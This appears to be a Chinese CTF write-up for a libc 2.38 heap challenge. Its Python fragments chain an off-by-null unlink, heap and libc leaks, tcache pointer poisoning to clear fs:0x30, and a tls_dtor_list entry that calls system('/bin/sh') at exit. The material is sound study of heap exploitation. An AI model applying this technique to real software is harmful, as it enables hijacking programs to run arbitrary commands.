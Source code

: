 - 存在任意地址写的漏洞利用
- 能够篡改或泄露`fs_base + 0x30`的值
- 程序会通过`exit`函数结束程序，若是通过`_exit`则不行

这一题libc 版本为2.38，可以用tls_dtor_list攻击劫持exit执行流程

参考：

[https://tttang.com/archive/1749/](https://tttang.com/archive/1749/)

[https://www.cnblogs.com/hetianlab/p/17682896.html](https://www.cnblogs.com/hetianlab/p/17682896.html)

这一题直接泄露heap，可以直接利用off by null 漏洞来修改pre_size 和 pre_inuse

> 通过unlink操作来造成堆重叠。

```python
ru(b'0x')
heap = int(r(0xc),16)-0x2a0
print("heap base : ",hex(heap))
add(0x4f8,b'\n') #0
add(0x4f8,b'\n') #1
add(0x408,b'\n') #2
edit(0,0x4f8,p64(heap+0x7b0)+p64(heap+0x7b0)+b"\x00"*0x4e0+p64(0x500))
edit(1,0x10,p64(heap+0x2b0)+p64(heap+0x2b0))
delete(1)
```

> 泄露libc

```python
add(0x408,b"\n") #1 chunk1==chunk0
delete(2) 
delete(0)
edit(1,0x8,p64((heap>>12)^(heap+0xae0)))
for i in range(0x4):
    add(0x408,"\n")
show(2)
libc_base=u64(p.recvline()[:-1]+p16(0))-0x1feed0
print("libc_base: ",hex(libc_base))
```

> tcache bin attack (修改fd指针)修改 `fs:0x30` 为 `\x00`

```python
delete(3)
delete(0)
edit(1,0x8,p64((heap>>12)^(libc_base-0x2890)))
add(0x408,b"\n")
add(0x408,p64(0)+b"\n")
```

> tcache bin attack (修改fd指针) 将 `system` 函数和参数 `\bin\sh`  放入 `tls_dtor_list`

```python
delete(0x4)
delete(0x0)
edit(1,0x8,p64((heap>>12)^(libc_base-0x2910)))
add(0x408,p64(rol(libc_base+0x55230,0x11))+p64(libc_base+0x1c041b)+b"\n")
add(0x408,p64(heap+0x2c0)+b"\n")
```

